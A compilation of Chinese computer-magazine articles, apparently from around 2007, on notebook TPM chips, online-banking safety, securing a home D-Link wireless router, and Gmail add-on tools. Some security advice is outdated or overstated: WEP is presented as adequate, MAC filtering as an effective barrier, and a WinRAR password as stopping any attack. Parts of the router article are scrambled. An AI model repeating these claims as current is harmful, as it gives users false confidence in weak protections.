TPM 安全芯片一般安装在主板上。为了规范化设计，各厂商的产品在外观和引脚方面都大同小异。譬如，联想的“恒智”和兆日的“SSX35”安全芯片外观几乎一致。这两款国产TPM安全芯片都采用TSOP封装，拥有28个引脚。但是，在安装方式方面则分为可插拔和不可插拔两种。前者的好处是厂商可以将TPM安全芯片作为选配件来销售，而且在TPM芯片发生故障的时候便于更换。但是，可插拔设计存在被窃取后反向工程破解的风险，因此大多数用户更加倾向于可靠性更高的不可插拔设计。此外，也有少数安全笔记本所使用的TPM安全芯片整合在网卡芯片中，此时在笔记本电脑主板上是看不到安全芯片的，这样也有利于降低设备损坏时的更换成本，而实际使用效果是相同的（见图7）。

### 小贴士：不同的TPM安全芯片有区别吗？

TPM安全芯片的设计遵循统一的标准，并且提供统一规范的编程接口，但最终功能的实现依赖软件完成。在安全功能的开发上，各个厂商根据不同的需要，可以开发出不同的安全软件。因此，我们可以认为不同的TPM安全芯片在硬件上是几乎没有差别的，唯一的区别可能仅仅是稳定性，而事实上目前的制造工艺完全可以确保稳定性。真正决定TPM安全芯片应用效果的还是软件，这是大家在选购安全笔记本电脑时所需要格外关注的。当然，由于TPM安全芯片的统一编程接口，因此大部分软件的应用效果都很不错。

### 3. 安全芯片市场现状

事实上，除了联想的“恒智”和兆日的“SSX35”安全芯片以外，苏州国芯在2005年的中国国际软件博览会上宣布，其高性能32位RISC嵌入式安全CPU内核CS320已通过验证。这是继联想、兆日科技之后，第三家在安全芯片领域崭露头角的中国厂商。但是，该芯片目前实际应用非常少，在市场上很难看到。

很多读者可能还想到了国外的安全芯片，譬如TI和ARM等厂商。但是，可信计算本身具有安全方面的特殊性，每个国家在密码技术上都有相应的国家保护措施。我国商用密码管理条例中明确表明，密码产品必须由国内厂家完成设计、生产和销售。国内只有联想和兆日科技的TPM安全芯片已通过国家密码管理局认证。按照法规，如果PC厂商要在中国推出安全笔记本电脑，必须使用通过国家密码管理局认证的产品，也就是目前必须使用联想“恒智”安全芯片或兆日TPM安全芯片，否则将被视为违法。

当然，市场上打擦边球的厂商还是不少。譬如，如果不以TPM安全芯片的形式出现，而是整合在某种处理器中，作为协处理器进行工作，那也完全可以起到类似的安全功能。但是，从配套软件开发便捷性以及市场宣传角度来看，此时无疑有所不利。因此，我们在国内看到的安全笔记本电脑几乎完全以联想“恒智”和兆日“SSX35”安全芯片为主，而且后者是绝对主流。

## 五、软件恢复技术

笔记本用户关心的安全问题最终落实到存储在硬盘上的数据，但是日常使用中造成的数据威胁不仅仅是非法侵入和病毒攻击，因为误操作而带来的数据灾难也屡见不鲜。因此，为笔记本搭配出色的软件恢复技术显得非常有必要。

### 1. “一键”恢复

通过快捷键进行快速系统恢复或是病毒查杀，这已经算不上什么新鲜的技术，但是确的的确确给用户带来不少方便之处。IBM ThinkPad笔记本的一键恢复功能一定让不少用户印象深刻。此时用户可以随时进行系统备份和系统恢复，当出现系统崩溃时，可以方便恢复到曾经备份过的系统状态。由于该备份的数据保存在隐藏分区中，因此用户不会因为误操作而删除备份信息，并且一键恢复一般只需5～10分钟，简单易用且颇为有效。

与一键恢复相类似的还有一键杀毒功能。以联想新款笔记本为例，其一键杀毒功能实现了在非Windows状态下查杀病毒。当发现病毒时，可以通过“一键”进入联想自主研发的嵌入式LEOS操作系统，然后再启动查杀病毒，更安全更彻底。当然，无论是一键恢复还是一键杀毒，在技术上实现起来并非非常困难，很多其他品牌的笔记本也配备了类似的功能。随着这些技术的普及，用户对于误操作、系统崩溃以及病毒侵扰的抵抗能力已经大大增强。

### 2. 无线网络安全防护

随着迅驰技术的普及，笔记本普遍配备了WiFi无线网络功能，但是安全问题也随之凸现。几乎所有的迅驰笔记本都提供了一个无线网络开关，这可谓是防止数据泄密的方法之一。由于WiFi无线网络也支持点对点模式，因此在不使用无线网络时应该关闭开关，这样不仅可以确保安全，还能省电。此外，建议大家在使用笔记本时禁止无线网络的Peer to Peer点对点模式，以避免其他无线网络直接通过这种模式来窃取数据。

此外，无线AP的选择也关系到笔记本用户的无线网络安全问题。现在不少笔记本经销商在销售产品时都附赠有着不错安全功能的无线AP。一般而言，支持128位WEP加密是最基本的要求，好一点的产品甚至支持256位WEP加密。尽管WEP被很多专业人士认为是不够安全的，但是在普通应用场合下，其加密强度还是非常不错的。此外，IP地址过滤和MAC地址过滤是很有效的防护手段，而且MAC地址对于网卡而言是唯一的，因此也可以作为防止未经授权访问的有效屏障。

无线客户端侵入的辅助手段，可以考虑在无线AP上激活这些功能。

## 六、谨防看不见的黑手：安全使用网络银行

“网银大盗”、“网络钓鱼”、诈骗海啸捐款……一系列与网上银行安全相关的事件层出不穷。我国目前已有20多家银行的200多个分支机构拥有网址、主页，其中开展实质性网上银行业务的分支机构达50余家，企业、个人客户超过1000万户，每年超过千亿元资金在网上流通。在上海地区，各行网银用户月均以两位数的百分比激增。以前，在银行才能办的转账、汇款、购物、代缴费等，现在坐在家里，用笔记本电脑轻点鼠标就能办妥，这是网上银行的优势。然而在优势的背后，却是一个看不见的黑手，因此如何确保网络银行安全成了所有网银用户亟待解决的问题。

#### 小贴士：网络银行到底安全不安全

基于网上银行的美好前景，多数国内银行都愿意不惜血本地投资以解决安全问题——在网络技术领域的合作伙伴几乎都是世界上最好的 IT 公司，如微软、IBM 等。但银行方面也承认，在网络的监管层面上，银行总有瓶颈存在。“有人在技术上走在银行的前面，或者掌握了网上银行的技术软肋，网上银行就不可避免地存在安全漏洞。”与传统银行业务相比，国内的银行在网上银行业务方面与外国银行巨头之间的差距要小得多。国内银行的网上银行业务功能更新很快，支付便捷程度越来越高，网上银行的信息安全措施日益健全。通过使用数字证书与电子签名可以保证广大网民放心、安全使用网上银行。因此，只要大家做好一些安全防护工作，那么网络银行完全可以放心使用。

- 1. 杜绝恶意程序：必不可少的防火墙

在 Internet 上，每个上网用户都可能受到不速之客的攻击和陷害。那些嵌在网页中的恶意 ActiveX 动态控件，或者是 Javascript 的程序都可能使你的磁盘文件或者操作系统受到致命的打击，而那些特洛伊木马程序则会在用户毫不察觉的情况下在其计算机中偷偷安家，从而使得整个计算机系统都受制于幕后的黑手。

Internet 通信是通过独立数据包的交换来完成的，每一个在 Internet 上传送的包，都必须含有源地址和目标地址。而防火墙的目的就是使用一段“代码墙”把你的电脑和 Internet 分隔开。它检查到达防火墙两端的所有数据包，无论是进入还是发出，从而决定这个包该拦截还是放行。因为防火墙检查每个到达你的电脑的数据包，所以在这个数据包被你机上运行的任何软件看到之前，防火墙有完全的否决权，可以禁止你的电脑接收 Internet 上的任何东西。

毫无疑问，做到拦截数据包并不困难，但是我们需要的是准确地拦截而不是频繁地误报。如果防火墙软件做不到这一点，那么它几乎就没有任何实用价值。在这方面，大名鼎鼎的 Norton 有着相当出众的技术，而它们推出的 Norton Personal Firewall 经过多次升级改进之后也日趋完美，效果完全超过了同类产品。

在 Norton Personal Firewall 的主界面点击“Personal Firewall”，然后选择“Config”（见图8），此时我们就可以通过“Custom Level”对防火墙的级别进行设定。我们可以对三种情况进行监控，分别是 Personal Firewall、Java Applet Security 和 ActiveX Control Security。一般而言，Personal Firewall 一定要设置成“High”警戒度，这是相当重要的。至于 Java Applet Security 和 ActiveX Control Security 大家可以根据自己的 Internet 使用状况来设定，如果一般只是浏览简单的资料查询网站，那么可以设置成“Medium”，让每次执行时都经过你的确认，防止恶意代码在不知不觉的状态下破坏你的系统。



#### 小贴士：使用防火墙拦截危险程序

一般而言，用户的 Internet 程序相当固定，浏览、QQ、下载软件等，每当任何一个应用程序请求 Internet 连接时，Norton Personal Firewall 作为防火墙都会让用户认可一下。如图9，当我们启动 QQ 时，Norton Personal Firewall 立即拦截，并询问是否通过。当然 QQ 程序是安全的，我们自然选择“Permit”，并且选中下方的“Always use this action”，这样 Norton Personal Firewall 就不会再次拦截 QQ 程序。如果用户需要修改设定，我们也可以通过点击“Personal Firewall → Config → Program Control”选项卡来更改所有的程序拦截设定。当然，其他软件甚至 Windows XP SP2 也都具备防火墙功能，大家可以有针对性地选用一款。



- 2. 最容易忽视的环节：反钓鱼

从理论上来说，只要杜绝那些未知的木马程序，切断其与 Internet 的连接，那么几乎就没有任何可以让网银用户遭受损失的方法。而事实上，目前大多数已发生的网银失窃案都是一些违法人员模仿银行的官方网站，以此来骗取密码，这才是最可怕的事情，目前在国际被称为“钓鱼”。

钓鱼正以一种新的犯罪形式，在不断侵犯普通网民的合法利益，具体表现在伪装“网络银行”窃取用户的银行卡卡号和密码，转走用户在银行的存款。不过，这类伎俩一般都非常粗劣，只要大家熟悉银行的官方网站，那么就很容易进行识别。但是令问题更加复杂的是，有些钓鱼网站并非直接模仿银行官方网站，而是制作一些类似在线购物的弹出窗口，再链接到相关登录界面，这就给识别带来了很大的困难。

对于上网经验并不丰富的网友而言，建议大家使用最新的 IE 7.0 浏览器。随着 Windows Vista 系统的推出，IE7.0 也被揭开了面纱，其中反钓鱼功能就是最大的改进之一。打开 IE 7.0 浏览器后，再单击菜单 “Tools → Phishing Filter”，在弹出的下拉菜单中，我们可以选择 “Turn On Automatic Checking”，这样就可以打开反钓鱼功能。在启用反钓鱼功能后，我们在浏览网页时，IE 状态栏上将会有一个蓝色的小盾牌样式的图标。如果是钓鱼网站，IE 将会给出警告。

假如大家还不习惯尚未推出正式版的 IE 7.0，那么可以安装 “3721 上网助手”，这款工具软件也有反钓鱼功能。在安装好之后，在 “安全防护” 标签中选中 “启用上网助手反钓鱼功能” 选项，然后再全部勾选下面三项设置，最后单击 “立即设置” 按钮即可。有了上面的设置后，当你在 IE 浏览器中打开任何一个网页时，在 IE 状态栏中将会显示一个绿色、黄色或是红色的圆图标（见图 10）。如果当前打开的网站是正常网站，这个图标就显示为绿色；如果是钓鱼网站，则显示为红色；如果是未确认的则显示为黄色，那么在试图输入银行账号及密码时要格外小心。



#### 小贴士：网络使用中需要注意的细节

- (1) 不要轻易点击通过聊天软件发过来的陌生人消息中的网站链接，即使是比较熟悉的朋友，也须先问清楚再点击。
- (2) 不要轻易接受网友发送给你的扩展名为 “.exe”、“.com”、“.bat” 的可执行文件，对于熟悉的朋友，也须先问清楚再接受。
- (3) 对于一些陌生人发过来的邮件不要轻易地打开，最好使用纯文本方式打开各种邮件，避免使用 HTML 方式打开邮件，这样容易感染病毒。
- (4) 在系统中安装一个口碑比较好的杀毒软件和病毒防火墙，并且定期对病毒库进行升级，以防止最新的病毒不能被查出。
- (5) 在公共计算机上避免使用网上银行，以防止账号信息泄露。

- 3. 配合银行的保密功能

对于网络安全，银行方面自然也非常重视，因此普遍推出了证书文件，这是非常有效的方式，大家可以充分利用。事实上，证书文件相当于网络上的“虚拟银行卡”，因此只有卡号和密码，而没有证书文件的话，一样无法进行非法活动。

证书文件是需要大家好好保管的，因此必须为证书文件设置强大的密码，而且绝对不能直接将其保存在硬盘上。理想的做法应该是在导入证书文件之后，将其使用 WinRAR 压缩，并设置一个密码。在这种情况下，非法入侵者几乎是无能为力的，因为 WinRAR 的加密功能已经非常强大，再加上证书本身密码的双重保护，完全可以抵挡任何非法攻击（见图 11）。



当然，证书文件由于目标明确还是存在一定的危险性，因此对于安全性要求较高的用户可以考虑“硬件证书”。为了保护数字证书的安全存放，工行、深发展等银行使用了 USBKey 电子钥匙作为证书存储介质，从而避免因计算机受到病毒的侵害而导致证书的失效。USBKey 网上银行证书通过硬件加密的方式验证客户的身份，客户有关信息一经下载到 USBKey 客户证书内，即具有唯一性和不可复制性，网上所有涉及账户资金的对外转移都必须事先通过 USBKey 客户证书进行唯一认证。USBKey 网上银行证书相当于一个 U 盘，支付的时候插入计算机接口，这样即使不小心丢失了账号、密码，也没有关系，没有这个证书是无法实现网上支付的（见图 12）。



# 防偷防盗防小人——为家用无线网络加密

文 /kingjames

笔记本电脑的价格不断下降，在PC销售比例中不断增加，使得人们移动上网办公逐渐成为现实，组建小型/家用无线网络成为一种时尚，也是一种必然。鉴于ADSL上网接入是目前国内最为普遍的宽带接入方式，所以在组建小型/家用无线网络时，一般采用的都是ADSL Modem +无线路由器的方式。

无线=无限？不少用户会有这样的顾虑，他人能进入我们的无线网络吗？这种担心并不是杞人忧天，自从无线网络技术出现之后，“安全”就成为始终伴随在“无线”这个词身边的影子，针对无线网络技术中涉及的安全认证加密协议的攻击与破解就层出不穷。如果没有做好安全设置，被他人接入甚至入侵到自己的无线网络中是完全有可能的！如果他人进入我们的无线网络，除了要耗费我们的网络资源外，我们的信息和网络安全也会受到威胁。因此，来为无线网络加上几把安全锁吧。

小提示：根据无线路由器品牌和型号的不同，加密操作也略有不同，但基本上可以触类旁通。本文以D-Link DI-624+A无线路由器为例来进行加密说明。

### 1. 为无线网络加密

我们首先来看看，到底有多少无线网络是根本不设防，处于“裸奔”状态的。

右击Windows任务栏右侧托盘区域的无线网络连接图标，选择“查看可用的无线网络”命令（见图1），打开“无线网络连接”窗口（见图2），可以在附近区域搜索到一些未加密的无线网络，只要双击此连接即可接入这个网络，稍微对IP、网关和DNS进行一





现在很多家用/小型无线网络都是没有加密、毫不设防的，不信你可以拿着迅驰笔记本在小区随便走一圈，一定能收到很多无线信号。看来，给家用无线网络进行安全加密是一件刻不容缓的事情。

为无线网络加密需要在无线网络的服务器端进行设置，对于ADSL Modem +无线路由器组建的无线网络来说，就需要在无线路由器端进行设置。

在任意一台已接入无线局域网（以无线或有线接入方式皆可）的电脑上即可对无线路由器进行各种加密设置：

启动IE，在地址栏输入无线路由器的IP地址（可在无线路由器的说明书中找到，例如D-Link DI-624+A无线路由器的IP地址是192.168.0.1），然后按回车键，进入登录界面。

初始的“用户名”和“密码”可以在无线路由器的说明书中找到，正确输入后单击“确定”按钮即可进入无线路由器的设置界面。在“首页”左侧的导航栏中单击“无线网络”，即可为无线网络设置加密方式（见图3）。



- (1) 无线网络ID（SSID）

它的作用是区分不同的网络，最多可以有32个字符，无线网卡设置了不同的SSID就可以进入不同网络，SSID通常由无线AP（无线接入设备，这里是无线路由器）广播出来。简单说，SSID就是一个局域网的名称，只有设置为名称相同SSID值的电脑才能互相通信。我们在图2中看到的诸如“kingjames、default”等就是无线网络ID。

#### （2）信道

也就是常说的无线的“频段（Channel）”，其是以无线信号作为传输媒体的数据信号传送通道。当在某一区域中有两个以上的AP（这里是无线路由器）时，需要为每个AP设定不同的信道，以免共用信道发生冲突。

#### （3）安全方式

包括WEP和WPA等加密方式。WEP是一种在接入点和客户端之间以“RC4”方式对分组信息进行加密的技术，设置较为简单，但密码也容易被破解。但WEP方式也有它的优点：当前它的应用是最为广泛的，这应归功于它实用于几乎所有802.11的无线产品。
WPA是继承了WEP基本原理而又解决了WEP缺点的一种新技术。由于加强了生成加密密钥的算法，因此即便收集到分组信息并对其进行解析，也几乎无法计算出通用密钥。



一无二的标识，称之为物理地址或MAC地址，当然无线网卡也不例外。我们可以通过无线路由器设置，建立MAC地址过滤列表，来防止非法设备接入网络。

### （4）WEP加密

如果上面的“安全方式”中选择了WEP，则要选择密钥的长度：有64位和128位两种，分别需要输入10个和26个16进位字元作为密钥。当然，密钥长度越长越安全，因此128位的安全性强于64位。

首先要获得需要接入无线网络的电脑的无线网卡的MAC地址。使用“开始”菜单→“运行”命令，输入“cmd”命令，打开命令行提示符窗口，再输入“ipconfig/all”命令，在“Physical Address”一栏显示的即为无线网卡的MAC地址。

#### （5）密码方式

“安全方式”选择为WEP后才有此选项，分为HEX和ASCII两种方式，一般使用HEX方式。
设定好以上选项以后，输入密码，并单击“执行”按钮，无线路由器会重新激活并应用设置。以后再接入此无线网络时，就必须要输入设定的密码，否则将不能接入。

小提示：如果计算机安装了多块网卡，则要注意辨识哪一个才是无线网卡的MAC地址。也可以将这些网卡的MAC地址都记录下来并添加到MAC地址过滤列表中。

进入D-LINK DI-624+A无线路由器的设置界面，单击“进阶设定”左边导航栏中的“过滤器”，在右边的“过滤器”选项下选择“MAC地址过滤”，在“MAC地址过滤”选项下选择“只允许下述MAC地址之使用者存取网络”，输入“名称”（可随意输入，它的作用只是为了方便区分各个MAC地址）和“MAC地址”，单击“复制”按钮，最后单击“执行”按钮，即可在下方“MAC地址过滤列表”中看到添加的MAC地址（见图5），之后只有这些MAC地址的网络设备才可以访问无线路由器。如果要拒绝某个MAC地址访问网络，也可使用类似的方法，不过要在“MAC地址过滤”选项下选择“只拒绝下述MAC地址之使用者存取网络”。

### 2. 关闭SSID广播

在无线网络中，如果无线路由器开启了SSID广播，就会自动向其有效范围内的无线网络客户端广播自己的SSID号，无线网络客户端接收到这个SSID号后，利用这个SSID号才可以使用这个网络。如果关闭了SSID广播并对SSID进行修改，此时客户端只有手工填入正确的SSID号才能找到你的无线网络，不会像上面讲的那样随便一搜就能搜索到你的无线网络，这将大大加强无线网络的安全性。有人问：为什么要修改SSID号呢？这是因为厂商有默认的SSID名称，这些SSID号很容易被猜到，所以要对其进行修改，注意不要使用诸如“3com、wlan、linksys、any、wireless、default、intel”这样的厂商使用的默认SSID。
以D-LINK DI-624+A无线路由器为例，关闭SSID广播的方法如下：
进入路由器设置界面，在“进阶设定”左边的导航栏中单击“无线设定”，然后在“广播发送SSID”选项下选择“关闭”并单击“执行”按钮，如图5。
修改SSID的方法为：
在图4所示的“无线网络ID(SSID)”一栏进行修改并单击“执行”按钮。



### 3. 设置MAC地址过滤

大家知道，基本上每一个网络接点设备都有一个独

```
ipconfig/all
```

以管理者身份来设置MAC地址过滤时，一定要注意，选择“只允许下述MAC地址之使用者存取网络”后，一定要首先将本机的MAC地址添加到“MAC地址过滤列表”中，如果漏掉本机MAC地址，则在执行设定以后，本机将无法访问路由器了，也就无法再继续进行设置了……这时就需要对无线路由器进行 Reset 操作了。

### 4. 关闭 DHCP 服务器

很多家庭无线网络都使用 DHCP 服务来为网络中的客户端动态分配 IP。这导致了另外一个安全隐患，那就是接入网络的攻击端很容易就通过 DHCP 服务来得到一个合法的 IP。在成员很固定的网络中，建议为网络成员设备分配固定的 IP 地址，从而在一定程度上防止非法入侵。因此，强烈建议关闭无线网络的 DHCP 服务器，方法如下：

进入无线路由器的设置界面，在“首页”左边的导航栏中单击“DHCP”，然后在右边的“DHCP 服务器”选项中选择“关闭”并单击“执行”按钮（见图 6）。



### 5. 为无线路由器更改用户和密码

经过上面的设置，你的无线网络就处于一个较安全的状态了，不过你千万不要遗漏了最重要的一点——为无线路由器更改用户和密码：在无线设备出售时，制造商给每一个型号的设备提供的初始用户名和密码都是一样，很多用户购买这些设备回来之后，都不会去修改设备的默认的用户名和密码。这就使得黑客们有机可乘。他们只要通过简单的扫描工具很容易就能找出这些设备的地址并尝试用默认的用户名和密码去登陆管理页面，如果成功则立即取得该路由器（或交换机）的控制权，也就是说上面你做的一切努力都会白费，因此一定要切记为无线路由器更改用户和密码！

方法如下：进入无线路由器设置界面，在“工具”选项左边的导航栏中单击“管理者系统”，即可在右边页面为账号设置密码。账号分别为管理者和使用者，它们权限不同。管理者可以读取和写入，而使用者只能够读取设定但不能够做更改。只有管理者有能力更改管理者 和使用者账户密码。修改密码后单击“执行”按钮，在下一次登录时就必须要输入设定的密码了。

经过上面的设置，你的无线网络就处于一个比较安全的状态了。

### 6. 升级 Firmware (韧体更新)

和 Windows 操作系统一样，无线设备自身也不是万无一失的，它或多或少存在着一定的漏洞，在 Windows 系统中我们可以通过为系统打补丁来实现弥补漏洞的操作，在无线设备中我们可以通过刷新 Firmware 内部硬件驱动来实现此功能。

通过刷新最新版本的 Firmware，能够提高无线路由器的安全性，新版本的 Firmware 常常会修复已知的安全漏洞，并可能在功能方面添加了一些新的安全措施。而且升级操作并不复杂，对于家用无线路由器来说，只要简单的点击就可检验和升级新版本的固件了。

- （1）首先登录无线路由器的官方网站（Dlink 路由器是 www.dlink.com.cn），下载对应路由器正确型号的最新 Firmware 程序并解压。
小提示：升级路由器的 Firmware 有风险，如果没有把握，请不要轻易尝试。其次，一定不要下载和升级了错误的 Firmware 程序，否则会造成无线路由器罢工，只能送厂家进行维修了。另外，有些时候，同一型号的无线路由器会有不同的版本（如 A、B 等区别），厂商提供的各个版本的 Firmware 程序未必就能通用。为了防止升级了错误的 Firmware 程序，建议在刷新 Firmware 之前向无线路由器的厂商客服进行咨询和确认。

- （2）进入无线设备的管理界面，单击上方“工具”按钮，在左边单击“韧体更新”。
- （3）单击“浏览”按钮，选择已下载的 Firmware 程序。
- （4）单击“执行”按钮进行升级操作。韧体更新程序需要花费一定时间。注意！当系统进行韧体更新时，绝对不可关闭电源；系统完成更新时会自动重新激活。当路由器升级完成后，原先对路由器进行的设定都将失效，还需要进行重新设定。

曾经有朋友问我：有人盗用我的无线网络，并且把我的无线网络给加密了，我都无法上网了，无线路由器也被他加了密码，我根本无法进行设置，该怎么办呢？很明显，这是因为你没有对无线网络进行加密，也没有修改无线路由器的默认用户和密码，别人可以很容易接入你的网络并修改无线路由器设置。不过别紧张，无线路由器不还在你屋子里吗？参照说明书上的说明，将它恢复到出厂设置就可以了。以 D-Link DI-624+A 为例，在无线路由器背面找到 Reset 小孔，在通电的时候用牙签之类的细棒插进去按住 Reset 键不放，保持 7~8 秒，然后再断电 2~3 分钟，即可恢复出厂设置。恢复出厂设置以后，即可用初始密码进入路由器设置，再别忘了对路由器进行上述的加密操作哦。

其实，无线网络的安全防范措施还有很多，例如：不用无线设备时关掉其电源或设置一个定时开关，在设定时间里关闭无线功能；尽量用有线网代替无线网络；别将无线路由器放在窗户附近，因为玻璃无法阻挡信号，最好将它放在需要覆盖的区域的中心，尽量减少信号泄露到墙外等。本文介绍的是最基本、最实用的六个措施，只要你按照本篇文章介绍的方法进行设置，已经可以大大增加自己无线网络的安全了，可以将大部分黑客入侵阻挡在无线网络之外。

## Gmail使用完全攻略

文 / 风之扬

2004年4月1日，Google公司推出的Gmail邮件服务粉墨登场，1G的容量令业界眼前一亮，但普通用户必须获得Gmail用户的邀请方可注册。2007年2月14日，谷歌公司全面放开Gmail邮箱，用户可以在页面上自由注册。细细罗列，Google这几年间发布了近三十种服务，而针对Gmail的整合服务则是其重中之重。那么，从“愚人节”到“情人节”，Google打开的Gmail“潘多拉魔盒”到底有哪些让人心动的地方呢？本专题结合多个视角，从Gmail紧密相关的实用工具和实用技巧出发，让广大用户和Gmail来一次近距离的亲密接触。

## 一、Gmail实用工具篇

### 1. 能够互动聊天的Google Talk

软件下载地址：http://www.google.com/talk/
为了方便网友之间的沟通，Google推出了类似QQ的即时通讯软件Google Talk（简称Gtalk），下载安装Gtalk后，只要使用Gmail账号就可以直接登录了。与QQ等即时通讯软件或其他邮箱不同的是，除了能够使用客户端聊天，Gmail邮箱也可以直接和在线好友即时聊天。该软件界面非常简洁，还可以进行语音聊天，软件界面上几乎没有广告的骚扰。Gtalk的联系人与Gmail通讯录无缝结合在一起，还可以使用Gmail邮箱来保存Gtalk的聊天记录。客户端界面如图1所示。



小技巧：在Gtalk中输入聊天内容后，可以通过按ctrl键和滑动鼠标的滚动键来改变文字大小。在聊天窗口的状态下滑动，文字就能任意变大或缩小。通过Gtalk也可以直接登录邮箱，有最新的信件时，Gtalk也会在第一时间通知用户。

当然，通过客户端聊天不是最精彩的。登录Gmail，就会在左侧看到Gmail的在线聊天状态，在这里可以显示所有的在线好友，点击某个好友后就会弹出聊天窗口，通过该种方式，即使没有下载安装Gtalk客户端，也可以轻松地与好友聊天。邮箱中的聊天记录如图2所示。



另外，还可以设置聊天记录是否保存到邮箱中，以及主界面显示联系人的个数等。通讯录功能和聊天功能紧密地结合在一起，每当邮箱收到新邮件或者发送新邮件时，都可以自动将收件人添加到通讯录中。

### 2. 体贴入微的Gmail Notifier

软件下载地址：http://toolbar.google.com/gmail-helper/
这是Google推出的邮箱检测程序，可以在系统栏显示Gmail的状态。通过这个功能，可以省去用户需要通过Web网页登录检查新邮件的麻烦。软件界面十分简单，容易上手。完成安装后，初次登录窗口时需要输入用户名和密码。然后，在右下角的托盘上会出现一个类似信封的小图标。双击该图标即可马上转入邮箱。在图标上单击右键，选择“Option（选项）”，在弹出的“Option（选项）”窗口中，可以选择邮件时所在的浏览器。如图3所示。
当有新邮件时，软件会及时弹出包含有邮件主题、发送者以及邮件内容中的部分摘要等信息的提示框，双击托盘区中的图标，即可直接登录到自己 Gmail 的 Web 页面中去浏览详细的邮件内容了。



小技巧:在 Maxthon 傲游浏览器中，还出现了 “Gmail Notifier” 插件，下载地址为 http://res.maxthon.com。插件安装非常简单，解压缩后将 “Gmail Notifier” 这个文件夹复制粘贴至 Maxthon 安装目录下的 “Plugin” 文件夹下，即可完成插件安装。打开 Maxthon 浏览器后，单击“标准工具栏”的“侧边栏”按钮，会看到侧边栏下方多了一个类似邮件的橙黄色图标，单击该图标后，侧边栏将会显示出 “Gmail Notifier” 的主界面。

### 3. 服务周到的 Google 笔记本

软件下载地址: http://www.google.com/notebook

在 Windows 操作系统中，记事本应该是广大用户比较喜欢的一个小工具了，Google 也推出了类似的网络“笔记本”服务，通过该服务可以将有用信息保存下来。第一次使用时，需要使用 Gmail 账号登录。登录后，会提示下载插件，点击“同意并下载”按钮，即可自动完成安装。下载扩展插件后，用户不必离开浏览的网页即可访问 Google 笔记本，并能够查看笔记本、整理成不同的段落、添加自己的笔记以及执行更多操作。使用过程中，只需点击浏览器状态栏上的笔记本图标，就可打开和关闭 Google 笔记本。

#### （1）剪贴信息

如果需要剪贴信息，只需点击一下即可。通过突出显示需要的网页内容，然后点击 Google 笔记本中的“剪贴”按钮，就可以快速而直接地将网络内容（图像、文本和链接）剪贴添加到笔记本中。Google 笔记本对信息的管理非常简单，所有操作只需点击页面上的“工具”下拉菜单即可完成，在这里可以方便地新建、添加、修改记事本，还可以直接打印记事本中的文章内容。如图 4 所示。



#### （2）添加笔记

点击“新建笔记”按钮，然后向笔记本中键入文本笔记；或点击笔记中的“添加注释”链接，然后对收集的剪贴添加注释。通过对不同主题创建多个笔记本，或者将单个笔记本分成几个段落，可使笔记本井然有序。用户还可以在段落或笔记本之间拖放笔记，轻轻松松地重新整理笔记。

#### （3）协作和共享

通过权限的授权操作，可以邀请其他用户在笔记本上一起工作，让他们编辑笔记本并添加自己的笔记。单击“共享设置”按钮，还可以将笔记本发布为公开网页，与网上的任何人共享笔记本信息，所发布的笔记本具有唯一的网址。如图 5 所示。



小技巧:使用页面顶部的搜索框，输入关键字后，可以单击“搜索我的笔记本”或“搜索网页”，轻松查找笔记本中的任何信息。

### 4. 个性化的 Gmail 图标生成器

网站地址: http://services.nexodyne.com/email/index.php

登录上述网站，在出现的文本框中输入 Gmail 账户名，如 cfantest，即可生成个性化的 Gmail 图标。单击图标文件，即可将文件保存下来。同时，网站给出了引用 URL 地址。如果在论坛或者其他场合进行展示时，输入给出的地址即可。如图 6 所示。



### 5. 像本地硬盘一样的 Gmail Drive shell extension

软件下载地址: http://www.viksoe.dk/code/gmail.htm

能否将 Gmail 的邮箱空间当作本地虚拟硬盘使用？答案是肯定的。首先登录网站（http://www.viksoe.dk/code/gmail.htm）下载软件。软件的安装非常简单，安装完成后打开“我的电脑”，可以发现本地硬盘上创建了一个虚拟分区。也就是说，本地硬盘一下子增加了 2.77G。

+   （1）双击刚刚添加的虚拟分区，就会弹出要求登录的窗口，填写 Gmail 用户名与密码就可以登录了，如果需要自动登录，选中“Auto login（自动登录）”后面的小方框选中就可以了。
+   （2）右键点击分区，选择“属性”就可以看到分区的属性了，从属性框中，我们可以看到，这个分区的文件系统是 GmailFS 格式的，同时可以看到分区的大小为 2.77G，容量十分诱人。双击分区，就可以打开分区，这里面是空白的。找一个文件拖动到这个分区试一下，就会发现 Gmail Drive shell extension 开始向 Gmail 的服务器传送文件；传送方式就像我们本地硬盘间复制文件一样。在空白区点击右键，还可以进行“View（查看）”、“Refresh（刷新）”、“Paste（粘贴）”、“New（新建）”等操作。使用十分方便。如图 7 所示。



小技巧：复制文件的过程类似向 Gmail 账户发送了一封 Email，可以将拖动的文件作为附件传送到 Gmail 服务器。现在，再次登录邮箱，就会发现有新的邮件，放在虚拟分区中的文件已经被当作附件传送到邮箱了。另外，为了管理方便，我们还可以对分区进行建立、删除文件夹等操作。

### 6. 在线创建和共享新版 Office 文件

网站地址：http://docs.google.com/

在收发电子邮件的过程中，经常会遇到版本不一致的情况。如果在其他场合，电脑上没安装 Office 等软件，怎么办？“Google 文件”是基于网络的免费文字处理和电子表格程序，它提供了文档的最新版本服务，可以避免在收发电子邮件过程中遇到的不同版本表格或文字问题。

#### (1) 新建和编辑文字处理文档

使用之前，需要登录“Google 文件”网站，地址为：http://docs.google.com，输入 Gmail 账户和密码。在 Google 文件中，用户可以使用在线编辑器来设置文档格式和进行拼写检查等操作；可以编制项目列表、按列排序、添加表格/图像/注释/公式、更改字体以及更多操作。点击工具栏按钮，即可进行加粗、加下划线、缩进、更改字体或数字格式、更改单元格背景颜色等操作。如图 8 所示。

在编辑和保存文件的过程中，Google 文件接受大部分的常用文件格式，包括 DOC、XLS、ODT、ODS、RTF、CSV 等等。用户还可以轻松上传 Word 文档、OpenOffice、RTF、HTML 或文本等，或者以 Word、PDF 或其他格式将文档下载到桌面。



小技巧：上传多个文档有利于更方便地管理文档。操作步骤如下：首先，点击“更新的文档和电子表格”页面左上角的“上传”。然后，在接下来的页面中，复制“通过电子邮件传入文档和文件”部分提供的唯一电子邮件地址，将该地址粘贴到电子邮件账户的“收件人：”字段中。最后，将需要发送的文档添加为此电子邮件的附件，然后点击“发送”。这样，就可以在“更新的文档和电子表格”页中访问这些文档了。

#### (2) 新建和编辑电子表格文件

登录“Google 文件”后，单击位于屏幕左上方的“新建工作簿”链接。输入所需的数据，保存文件即可供今后使用。在“编辑”工具栏中，可以找到大部分编辑选项，包括粗体、下划线、斜体、字体颜色、单元格颜色、字体库以及字体大小。还可以更改单元格的对齐方式、对所有选定行水平合并单元格、文本换行、插入或删除行或列以及添加边框。如图 9 所示。



